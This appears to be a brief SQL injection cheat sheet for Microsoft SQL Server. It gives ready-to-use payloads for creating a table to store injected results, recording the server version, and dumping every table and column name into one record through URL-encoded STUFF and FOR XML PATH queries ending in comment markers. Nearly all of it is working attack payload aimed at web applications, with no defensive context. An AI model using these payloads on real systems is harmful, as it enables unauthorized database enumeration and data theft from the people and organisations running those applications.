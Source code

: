 MSSQL Server Useful Queries and notes
===========
############## CREATING A TABLE TO STORE INJECTION DATA ##############

Create a table to inject into:
```sql
CREATE TABLE YOUNAMEYOURTABLE ( ID int IDENTITY(1,1) PRIMARY KEY,  data varchar(8000));--
```
Insert data into your table:
```sql
insert into YOUNAMEYOURTABLE (data) Select @@Version--
```
Grab All the Database Tables into 1 record separated by a ';'

if not using a web application, replace the %2b with a +
```sql
%2bSTUFF((SELECT '; ' %2b TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 
'BASE TABLE' AND TABLE_CATALOG='REPLACEME' FOR XML PATH('')), 1, 1, '')--
```
Grab All the Table Columns into 1 record separated by a ';'

if not using a web application, replace the %2b with a +
```sql
SELECT 'PutTheTableNameHereForReference: ' %2bSTUFF((SELECT '; ' 
%2b column_name FROM TheDatabaseYouWantToQueryFrom.INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='REPLACEME' 
FOR XML PATH('')), 1, 1, '')--
```
